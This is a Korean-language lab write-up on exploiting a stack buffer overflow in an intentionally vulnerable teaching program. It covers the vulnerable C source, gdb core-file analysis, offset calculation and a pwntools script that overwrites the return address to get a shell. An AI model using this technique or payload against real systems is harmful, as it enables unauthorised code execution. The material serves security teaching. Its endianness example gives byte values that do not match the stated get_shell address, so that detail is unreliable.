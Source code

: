 ### 실습 코드

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];
  
  init();
  printf("Input: ");
  scanf("%s", buf);
  
  return 0;
}
```

<br>

---

<br>

### 1. 분석

#

#### 취약점 분석

`main` 함수에서 `scanf("%s", buf)` 를 보면 입력 길이에 제한 없이 입력을 받고 있습니다. 그래서 오버플로우 공격이 가능합니다.

크기가 0x28 바이트인 버퍼에 입력을 받고 있기 때문에, 0x28 바이트 이상의 데이터를 입력하면 버퍼 오버플로우를 발생시켜서 `main` 함수의 반환 주소를 덮을 수 있습니다.

C++의 표준함수 중 취약한 함수에는 대표적으로 `strcpy, strcat, sprintf, scanf` 등이 있습니다.

<br>

#### 트리거

발견한 취약점을 확인하는 행위

#

`"A"` 를 5개 입력해보면

```bash
$ ./rao
Input: AAAAA
$
```

프로그램이 정상적으로 종료되었습니다.

#

이번에는 `"A"` 를 64개 입력해보면

```bash
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

전과 달리 `Segmentation fault` 라는 에러가 출력되며, 프로그램이 비정상적으로 종료되었습니다.

프로그램이 잘못된 주소에 접근했다는 의미이고 버그가 발생했다는 의미입니다.

추가적으로 `(core dumped)` 라는 메시지와 함께 코어 파일이 생성되었는데, 프로그램이 비정상적으로 종료되었을 때 디버깅을 돕기 위한 것입니다.

<br>

#### 코어 파일 분석

gdb에는 코어 파일을 분석하는 기능이 있어서 입력이 스택에 어떻게 들어갔는지 확인할 수 있고 쉘을 획득하기 위한 계획을 세울 수 있습니다.

#

 gdb로 코어 파일을 열어보면

```bash
$ gdb -c core -q
[New LWP 52]
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in ?? ()
```

프로그램의 종료 원인과 어떤 주소의 명령어를 실행하다가 문제가 발생했는지 보여줍니다.

<br>

```bash
gdb-peda$ x/10s $rsp
0x7ffe429d4968: "AAAAAAAA"
0x7ffe429d4971: ""
0x7ffe429d4972: ""
0x7ffe429d4973: ""
0x7ffe429d4974: ""
0x7ffe429d4975: ""
0x7ffe429d4976: ""
0x7ffe429d4977: ""
0x7ffe429d4978: "HJ\235B\376\177"
0x7ffe429d497f: ""
```

스택을 관찰해보면 입력값 중 일부인 `AAAAAAAA` 가 `rsp` 가 가리키는 곳에 저장되어 있습니다.


<br>

---

<br>

### 2. 익스플로잇

#

#### 스택 프레임 구조 파악

스택 버퍼에 오버플로우를 발생시켜서 반환 주소를 덮으려면, 우선 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 합니다.

```bash
// main()
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   
gdb-peda$ x/s 0x4007c4
0x4007c4:       "%s"
```

`main` 의 어셈블리 코드에서 `scanf` 부분을 의사 코드로 표현해보면 `scanf("%s", rbp-0x30)` 가 됩니다.

#

스택 구조를 그려서 파악을 해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/d399c0be-c3da-45dd-8e1a-eeb45f5d97a7/image.png">


`buf` 와 `return address` 사이에 `0x38` 만큼 떨어져 있기 때문에, `0x38` 만큼 쓰레기 값으로 채우고 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있습니다.

<br>

#### get\_shell() 주소 확인

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
```

쉘을 실행시켜주는 `get_shell()` 함수가 있기 때문에, `main` 함수의 반환 주소를 `get_shell()` 함수의 주소로 덮으면 쉘을 획득할 수 있습니다.

#

gdb로 `get_shell()` 함수의 주소를 찾아보면

```bash
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

`0x4006aa` 가 `get_shell` 함수의 주소입니다.

<br>

#### 페이로드 구성

시스템 해킹에서 페이로드는 공격을 위해 전달하는 데이터를 의미합니다.

익스플로잇을 위해 페이로드를 구성해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/bc69163f-e14b-4de7-a523-22d033225886/image.png">

<br>

#### 엔디언 적용

페이로드는 적절한 엔디언을 적용해서 프로그램에 전달해야 합니다.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 리틀 엔디언과 빅 엔디언이 사용됩니다.

`MSB(Most Significant Byte)` : 가장 왼쪽 바이트
`리틀 엔디언` : `MSB` 가 가장 높은 주소에 저장됩니다.
`빅 엔디언` : `MSB` 가 가장 낮은 주소에 저장됩니다.

`0x12345678`
리틀 엔디언 → `78 56 34 12`
빅 엔디언 → `12 34 56 78`

인텔 x86-64아키텍쳐는 리틀 엔디언을 사용하기 때문에, `get_shell` 함수의 주소는 `“\\xa7\\x05\\x40\\x00\\x00\\x00\\x00\\x00”` 로 변환해서 전달해줘야 합니다.

<br>

#### 익스플로잇

```python
from pwn import *

p = process('./rao')

payload = b"A"*0x30
payload += b"B"*0x8
payload += b"\xaa\x06\x40\x00\x00\x00\x00\x00"

p.recvuntil('Input: ')

p.sendline(payload)
p.interactive()
```

익스플로잇 코드를 짜서 공격을 해보면

#

```bash
$ python3 exploit.py
[+] Starting local process './rao': pid 629
[*] Switching to interactive mode
$
```

공격에 성공해서 쉘을 흭득하였습니다.

#

---

<br>

> [Exploit Tech: Return Address Overwrite
](https://dreamhack.io/lecture/courses/58)
